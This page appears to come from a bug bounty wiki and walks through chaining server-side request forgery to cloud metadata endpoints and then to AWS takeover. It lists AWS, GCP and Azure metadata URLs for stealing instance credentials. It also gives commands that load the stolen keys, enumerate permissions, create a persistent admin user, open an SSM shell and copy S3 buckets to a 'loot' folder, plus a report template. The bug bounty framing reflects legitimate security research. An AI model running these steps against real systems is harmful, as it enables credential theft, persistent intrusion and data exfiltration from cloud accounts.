

> Source: https://bugbounty.info/Chains/SSRF-to-Cloud-RCE

# SSRF to Cloud Metadata to RCE

## Why This Chain Works

SSRF alone is a medium at best unless you can show impact. Hitting the cloud metadata endpoint changes everything. You get IAM credentials that were provisioned for the instance. From there it's a permissions enumeration game and more often than not the instance has overpermissioned roles because devs give it admin access during testing and never lock it down.

Related: [SSRF](../Attack-Surface/Web/SSRF/), [Cloud Attack Surface](../Attack-Surface/Cloud/), [IAM Privilege Escalation](../Attack-Surface/Cloud/AWS/IAM-Privilege-Escalation)

---

## Attack Flow



---

## Step-by-Step

### 1. Confirm the SSRF

Find parameters that trigger server-side requests: `url=`, `webhook=`, `fetch=`, `import=`, `dest=`, image URL fields, PDF generators, XML parsers. Confirm with a Burp Collaborator callback or interactsh. Then pivot to internal addresses.

### 2. Hit the Metadata Endpoints

**AWS:**

```text
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
http://169.254.169.254/latest/user-data/
```

IMDSv2 blocks simple GET requests. If you get a 401, try the two-step token flow via SSRF (PUT to get a token, then GET with that token in the header). Many targets haven't enforced IMDSv2 everywhere.

**GCP:**

```text
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Requires `Metadata-Flavor: Google` header. If you can set headers in your SSRF, send it. If not, check if the app reflects custom headers.

**Azure:**

```text
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```

Requires `Metadata: true` header.

### 3. Extract the Credentials

AWS response looks like:

```json
{
  "Code": "Success",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "2026-01-01T00:00:00Z"
}
```

These are temporary STS credentials tied to the instance role. They expire but rotate, so act fast.

### 4. Configure and Enumerate

```bash
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
 
# Who am I?
aws sts get-caller-identity
 
# What can I do? (bruteforce via enumerate-iam)
python3 enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID \
  --secret-key $AWS_SECRET_ACCESS_KEY \
  --session-token $AWS_SESSION_TOKEN
```

### 5. Escalation Paths

**If you have `iam:CreateUser` + `iam:AttachUserPolicy`:**

```bash
aws iam create-user --user-name pwned-user
aws iam attach-user-policy --user-name pwned-user \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam create-access-key --user-name pwned-user
```

Persistent admin access. Done.

**If you have `lambda:CreateFunction` + `lambda:InvokeFunction` + `iam:PassRole`:**

```bash
# Deploy a Lambda with a role that has more perms
# Invoke it to execute arbitrary code in that role's context
```

**If you have `ec2:DescribeInstances` + `ssm:StartSession`:**

```bash
aws ssm start-session --target i-INSTANCEID
# Shell on the instance
```

**If you have S3 read access:**

```bash
aws s3 ls s3://
aws s3 sync s3://interesting-bucket ./loot/
# Look for .env files, db backups, source code, other credentials
```

---

## Common Escalation Paths Reference

| Permissions | What You Can Do |
| --- | --- |
| `iam:CreateUser` + `iam:AttachUserPolicy` | Create persistent admin user |
| `iam:PassRole` + `lambda:*` | RCE in elevated context |
| `iam:PassRole` + `ec2:RunInstances` | Spin up instance with admin role |
| `sts:AssumeRole` | Hop to other roles in the account |
| `secretsmanager:GetSecretValue` | Read all stored secrets |
| `ssm:GetParameter` + path=/ | Read all SSM params including secrets |

---

## PoC Template for Report

```text
1. SSRF trigger: POST /api/render with body {"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
2. Response contains role name: "app-prod-role"
3. Second request to /app-prod-role returns AccessKeyId, SecretAccessKey, Token
4. aws sts get-caller-identity confirms identity: arn:aws:iam::123456789:assumed-role/app-prod-role/i-abc123
5. enumerate-iam output attached showing iam:CreateUser permission
6. Created test user "bb-test-DO-NOT-USE" and immediately deleted it to prove admin access
```

Always create and delete a benign test resource. Don't just claim you have the permissions, show the API call that proves it.

---

## Public Reports

Real-world SSRF to cloud escalation findings across bug bounty programs:

- SSRF on U.S. Dept of Defense via outdated Confluence reaching internal servers - [HackerOne #326040](https://hackerone.com/reports/326040)
- SSRF via analytics reports on HackerOne - [HackerOne #2262382](https://hackerone.com/reports/2262382)

---

## Reporting Notes

The SSRF is the entry point. The cloud credential theft is the escalation. The permissions enumeration is what determines final severity. Show the full chain in the report: SSRF request, metadata response (redacted creds), identity confirmation, and one proof-of-impact action. Severity lands at Critical if you can show any persistent access or data exfiltration.
